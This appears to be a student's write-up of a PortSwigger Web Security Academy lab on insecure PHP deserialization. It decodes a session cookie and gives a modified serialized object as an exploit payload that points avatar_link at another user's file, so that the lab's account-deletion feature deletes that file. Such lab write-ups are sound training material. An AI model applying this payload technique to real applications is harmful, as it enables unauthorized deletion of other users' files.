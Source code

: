 ```yaml
---
title: 'Lab: Using application functionality to exploit insecure deserialization'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/Deserialization"
---
```


# Lab: Using application functionality to exploit insecure deserialization
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object.
* Goal: To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.

    You can log in to your own account using the following credentials: wiener:peter
    You also have access to a backup account: gregg:rosebud


## Recon
1. Login and Recon
When you'd like to delete an account, the package would be like as below:
![](https://i.imgur.com/StLYuw0.png)

    Session: `Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJzdHB4YXlzZzRtdzJ4MHo5c3h2ajE4N3dmZWEweGY5NSI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d`
    Decoded String: `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"stpxaysg4mw2x0z9sxvj187wfea0xf95";s:11:"avatar_link";s:19:"users/wiener/avatar";}`

    You can observe that it's not only delete your whole account but your avatar image. In addition, it provide the avatar link in decoded string: `users/wiener/avatar`

2. How about we modify the delete path?(<font color="FF0000">通靈</font>)

## Exp - Change the delete path
Exploit Payload:
```php!
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"stpxaysg4mw2x0z9sxvj187wfea0xf95";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```
:::spoiler Success Screenshot
![](https://i.imgur.com/JS21zkY.png)
:::